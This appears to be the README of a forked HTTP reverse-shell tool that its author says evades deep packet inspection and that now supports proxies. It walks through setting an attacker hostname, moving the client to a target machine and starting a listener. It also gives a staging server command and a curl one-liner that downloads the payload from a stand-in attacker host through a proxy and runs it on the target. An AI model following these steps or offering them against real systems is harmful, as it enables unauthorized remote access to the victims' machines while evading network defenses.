 # HTTP-Reverse-Shell

A reverse shell over HTTP (dodges deep packet inspection). Using Python 3 and no external dependencies needed.

This fork added proxy awareness that I needed. 

# Prerequisites
- Python 3 (on both the attacker and the target machine)

# Usage
1. Change `ATTACKER_HOSTNAME` to the actual hostname of the attacker on `client.py`
2. Change `ATTACKER_PORT` on both `client.py` and `server.py` (or you can just use the default)
3. Transfer `client.py` to the target machine
4. Run `server.py` on the attacker machine
```
python3 server.py
```
5. Run `client.py` on the target machine
```
python3 client.py
```
6. Connection will be established


# Possible Transfer Methods

In the directory where client.py exists on a separate attacker payload staging machine, run the following: 

```
sudo python3 -m http.server 443
```

# Possible Initiation Methods

On the target system run the following command to fetche the staged payload, then reach out to the listener hosted on a second attacker machine to complete the reverse shell.

```
curl --proxy proxy.example.com:8080 http://staging.com:443/client.py > client.py && python3 client.py
```

